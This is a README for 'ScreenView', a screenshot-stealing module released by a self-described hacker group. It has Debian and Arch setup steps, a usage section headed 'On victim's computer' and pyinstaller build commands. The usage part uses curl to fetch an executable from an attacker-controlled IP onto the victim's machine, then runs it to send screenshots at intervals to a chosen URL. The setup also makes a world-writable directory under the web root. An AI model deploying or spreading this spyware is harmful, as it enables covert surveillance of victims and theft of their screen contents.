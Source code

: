 # ScreenView
The Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo mkdir hacks
$ sudo chmod 777 hacks
$ cd hacks/
$ git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
